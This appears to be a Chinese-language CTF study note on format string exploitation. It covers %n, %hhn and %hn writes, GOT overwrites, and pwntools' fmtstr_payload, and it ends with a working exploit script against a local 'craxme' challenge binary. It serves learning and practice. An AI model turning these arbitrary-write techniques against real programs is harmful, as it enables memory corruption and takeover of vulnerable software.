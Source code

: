 注意：在VS上代码使用了%n，编译后运行则会出错，**原因是微软处于安全考虑默认是禁用了`%n`，**要启用则需要加上：

```c++
_set_printf_count_output(1);
//int _set_printf_count_output(int enable);
//Enable or disable support of the %n format in printf, _printf_l, wprintf, _wprintf_l-family functions.
//enable的取值:A non-zero value to enable %n support, 0 to disable %n support.
```

###### 1.覆盖小数字

结合为k$，得到`...[overwrite addr]....%[overwrite offset]$n`，对任意addr地址的写。

overwrite addr 表示我们所要覆盖的地址，overwrite offset 地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。

写入的值为输出的字符个数，例如`printf("%.30d%n", c,&c);`，通过设置宽度30，输出30个字符，写到&c。payload=`[addr of c]%026d%k$n`，addr of c 的长度为 4，故而我们得再输入30-4=26个字符才可以达到30个字符，从而修改c=30。

###### 2.覆盖大数字

对于通过格式化字符串漏洞复写GOT表的情况，写入一个地址0x0804xxxx，回显都会炸掉。

则要使用hh和h格式化字符串标志

```
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
```

可以利用 %hhn 向某个地址写入单字节【只影响单个字节，而%n会影响到4个字节】，利用 %hn 向某个地址写入双字节。

也就是对于写入大数字，我们可以通过`%k$hhn`来**一字节一字节的写入**，慢慢构成那个大数据

##### fmtstr_payload函数

fmtstr_payload(offset, {key1: value1，key2：value2，……})

本函数用于利用格式化字符串漏洞【pwntools中的库函数】实现**任意地址写**，第一个参数offset——设置为格式化字符串的第k个参数偏移，第二个参数字典——设置keyi，valuei，实现往key的地址，写入value的值。

但是，这个函数以0x00开头，应该是传不过去的【会有EOFError，在于`printf` 根据`\x00`判断结尾】，还是要人工写。

- 绕过方式：将`cn.sendline(p32(0x08048000)+"%6$s")`修改为`cn.sendline("%7$s"+p32(0x08048000))`
  - 从第六个参数变为第七个参数，先传输format再传输地址。

##### exp：

方法一：通过任意地址写修改magic：

```c++
from pwn import *
context.log_level = 'debug'

p_magic = 0x0804A038
fmt_len = 7

cn = process('./craxme')

cn.recv()
pay = fmtstr_payload(fmt_len,{p_magic:0xfaceb00c}) //cat /home/craxme/craxflag
cn.sendline(pay)
cn.recvuntil('}')

cn = process('./craxme')

cn.recv()
pay = fmtstr_payload(fmt_len,{p_magic:0xda}) //cat /home/craxme/flag
cn.sendline(pay)
cn.recvuntil('}')
```
